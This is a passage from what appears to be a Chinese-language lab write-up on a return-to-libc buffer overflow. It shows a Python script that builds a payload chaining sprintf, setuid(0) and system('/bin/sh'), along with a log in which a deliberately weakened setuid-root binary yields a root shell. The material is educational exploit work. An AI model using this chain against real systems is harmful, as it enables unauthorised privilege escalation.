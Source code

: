 ```python
    content += tobytes(sprintf_arg2)
    content += b'A' * (0x20 - 5*4)
    sprintf_argl += 1

## setuid(0)
ebp_next += 0x20
content += tobytes(ebp_next)
content += tobytes(setuid_addr)
content += tobytes(leaveret)
content += tobytes(0xFFFFFFFF)
content += b'A' * (0x20 - 4*4)

## system("/bin/sh")
ebp_next += 0x20
content += tobytes(ebp_next)
content += tobytes(system_addr)
content += tobytes(leaveret)
content += tobytes(sh_addr)
content += b'A' * (0x20 - 4*4)

## exit()
content += tobytes(0xFFFFFFFF)
content += tobytes(exit_addr)

## Write the content to a file
with open("badfile", "wb") as f:
    f.write (content)
```

在上面的程序中，有以下几点：

- 先调用 `setuid(0)` ，然后再调用 `system("/bin/sh")`，以绕过 countermeasure
- 由于参数的 0 无法复制，所以我们调用四次 `sprintf()` 来生成 0

运行程序，可以看到成功提权

```shell
$ make
gcc -m32 -DBUF_SIZE=12 -fno-stack-protector -z noexecstack -o retlib retlib.c
sudo chown root retlib && sudo chmod 4755 retlib
$ ./exploit.py
$ ./retlib
ffffd3e3
Address of input[] inside main():  0xffffcd7c
Input size: 256
Address of buffer[] inside bof():  0xffffcd40
Frame Pointer value inside bof():  0xffffcd58
# whoami
root
```

## Task 5: Return-Oriented Programming
